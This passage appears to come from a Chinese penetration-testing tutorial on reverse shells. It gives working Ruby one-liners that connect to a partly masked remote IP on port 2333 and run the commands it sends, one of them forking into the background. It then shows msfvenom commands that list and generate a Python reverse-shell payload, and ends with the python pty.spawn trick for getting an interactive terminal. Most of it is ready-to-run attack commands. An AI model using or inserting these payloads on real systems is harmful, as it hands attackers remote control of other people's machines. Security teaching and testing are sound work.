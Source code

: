 ```
ruby -rsocket -e 'c=TCPSocket.new("47.xxx.xxx.72","2333");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'或ruby -rsocket -e 'exit if fork;c=TCPSocket.new("47.xxx.xxx.72","2333");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

执行效果如下：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPCSxBYRgycqDoMnsAyQ3NTJpfstIWuOdD9n5r7YdrVpiasDGNrUicyLxxVsO4m5VwYoYkmiaF2GxDA/640?wx_fmt=png)

使用 Metasploit 生成反弹 shell 用的一句话
------------------------------

强大的 Metasploit 框架也为我们提供了生成一句话反弹 shell 的工具，即 msfvenom，绝对的实用。当我们不记得前面说的所有反弹 shell 的反弹语句时，只要我们有 Metasploit，那么我们随时都可以使用 `msfvenom -l` 来查询生成我们所需要的各类命令行一句话，具体使用方法如下。

我们直接可以使用 `msfvenom -l` 结合关键字过滤（如 cmd/unix/reverse），列出我们需要生成的各类反弹 shell 一句话的 payload：

```
msfvenom -l payloads | grep 'cmd/unix/reverse'
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPCSxBYRgycqDoMnsAyQ3NkopGw4CgDLyssx0YplgUPm1H5iaf2pvJTrUExhxcBD1sOW5d97TDqbQ/640?wx_fmt=png)

如上图所示，metasploit 支持生成反弹 shell 一句话的类型非常丰富，大家可以依据渗透测试对象自行选择使用。比如，我们获取一个 python 反弹 shell 的一句话：

```
msfvenom -p cmd/unix/reverse_python LHOST=47.xxx.xxx.72 LPORT=2333 -f raw
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPCSxBYRgycqDoMnsAyQ3NS8icxh61Y1gXqAlQAp4icW8UdDicCqbJaYskFRaWiac4GEic4IAuMT1gArA/640?wx_fmt=png)

将生成的 python 反弹 shell 的一句话在目标主机上执行即可：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPCSxBYRgycqDoMnsAyQ3N7YjHibH4U1stSjlQ9bWHcSCI2PLjkWQVBmh9xLnetgGnvPac4kFnib2w/640?wx_fmt=png)

反弹 shell 后获取模拟终端
----------------

其实，上面所讲的各种方法获取的 shell 都不是一个标准的虚拟终端环境，它仅仅是一个标准输入。你会发现存在一个问题，就是即使我们获取了目标虚拟终端控制权限，但是往往会发现其交互性非常的差，回显信息与可交互性非常的差和不稳定，具体见情况有以下几个种。

• 获取的虚拟终端没有交互性，我们想给添加的账号设置密码或执行 sudo 等命令，无法完成。• 标准的错误输出无法显示，无法正常使用 vim 等文本编辑器等。• 获取的目标主机的虚拟终端使用非常不稳定，很容易断开连接。

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPCSxBYRgycqDoMnsAyQ3Nuib6wP2pvcfl5IrtYQ70HibeMjozJkn1LUZXlPsNfgCqViboFG1zp2ukg/640?wx_fmt=png)

这往往都是因为我们获取的 shell 并不是标准的虚拟终端，为了能够完成输入密码等操作，我们必须模拟一个真正的终端设备。

我们其实可以借助于 python 默认包含的一个 pty 标准库来获取一个标准的虚拟终端环境。Python 在现在一般发行版 Linux 系统中都会自带，所以使用起来也较为方便，即使没有安装，我们手动安装也很方便。

我们只需在获取的 shell 里面输入如下命令，即可模拟一个终端设备：

```
python -c "import pty;pty.spawn('/bin/bash')"
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicPCSxBYRgycqDoMnsAyQ3NmKK1sgCHTy8sZehP0fPpsrClX8aQ8guo5hUofvE9sMUVrEv1P7iaiaLQ/640?wx_fmt=png)
